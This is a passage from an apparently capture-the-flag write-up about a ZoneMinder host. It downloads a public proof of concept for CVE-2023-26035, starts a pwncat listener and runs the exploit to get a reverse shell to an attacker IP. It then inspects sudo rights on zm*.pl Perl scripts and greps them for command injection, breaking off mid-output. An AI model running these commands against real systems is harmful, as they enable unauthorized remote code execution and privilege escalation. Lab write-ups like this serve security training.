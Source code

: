 I searched online for some vulnerabilities and found this [POC here](https://github.com/rvizx/CVE-2023-26035).<br>
i tested it:
```bash
wget https://raw.githubusercontent.com/rvizx/CVE-2023-26035/main/exploit.py
pwncat-cs -lp 8888 #on another terminal
python3 exploit.py -t http://127.0.0.1:8085 -ip 10.10.14.107 -p 8888
```
We got a callback!
    
[zone minder user](./pic/zoneminder_callback.png)
    
now we need to escalate to root.<br>

# root

if we run:
```bash
sudo -l
```
output:
```bash
Matching Defaults entries for zoneminder on surveillance:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User zoneminder may run the following commands on surveillance:
    (ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *
```
i didn't understand what this thing was doing until i runned ls with that pattern:
```bash
ls -la /usr/bin/zm[a-zA-Z]*.pl
```
output:
```bash
-rwxr-xr-x 1 root root 43027 Nov 23  2022 /usr/bin/zmaudit.pl
-rwxr-xr-x 1 root root 12939 Nov 23  2022 /usr/bin/zmcamtool.pl
-rwxr-xr-x 1 root root  6043 Nov 23  2022 /usr/bin/zmcontrol.pl
-rwxr-xr-x 1 root root 26232 Nov 23  2022 /usr/bin/zmdc.pl
-rwxr-xr-x 1 root root 35206 Nov 23  2022 /usr/bin/zmfilter.pl
-rwxr-xr-x 1 root root  5640 Nov 23  2022 /usr/bin/zmonvif-probe.pl
-rwxr-xr-x 1 root root 19386 Nov 23  2022 /usr/bin/zmonvif-trigger.pl
-rwxr-xr-x 1 root root 13994 Nov 23  2022 /usr/bin/zmpkg.pl
-rwxr-xr-x 1 root root 17492 Nov 23  2022 /usr/bin/zmrecover.pl
-rwxr-xr-x 1 root root  4815 Nov 23  2022 /usr/bin/zmstats.pl
-rwxr-xr-x 1 root root  2133 Nov 23  2022 /usr/bin/zmsystemctl.pl
-rwxr-xr-x 1 root root 13111 Nov 23  2022 /usr/bin/zmtelemetry.pl
-rwxr-xr-x 1 root root  5340 Nov 23  2022 /usr/bin/zmtrack.pl
-rwxr-xr-x 1 root root 18482 Nov 23  2022 /usr/bin/zmtrigger.pl
-rwxr-xr-x 1 root root 45421 Nov 23  2022 /usr/bin/zmupdate.pl
-rwxr-xr-x 1 root root  8205 Nov 23  2022 /usr/bin/zmvideo.pl
-rwxr-xr-x 1 root root  7022 Nov 23  2022 /usr/bin/zmwatch.pl
-rwxr-xr-x 1 root root 19655 Nov 23  2022 /usr/bin/zmx10.pl
```
Those are all the script that zoneminder software uses to administrate the system.<br>
they all are perl script, so in order to find some vulnerabilites i searched for perl strings that run commands.<br>
i asked Chat-GPT and it told me that i can use `system()` `` `<command_to_run>` `` or `qx()`.<br>
By running this grep command i searched for possible command injection, and eventually i found one.
```bash
grep -r 'qx(' /usr/bin/zm[a-zA-Z]*.pl -B 30
```
output:
```bash
/usr/bin/zmupdate.pl-  my $dbh = shift;
/usr/bin/zmupdate.pl-  my $version = shift;
```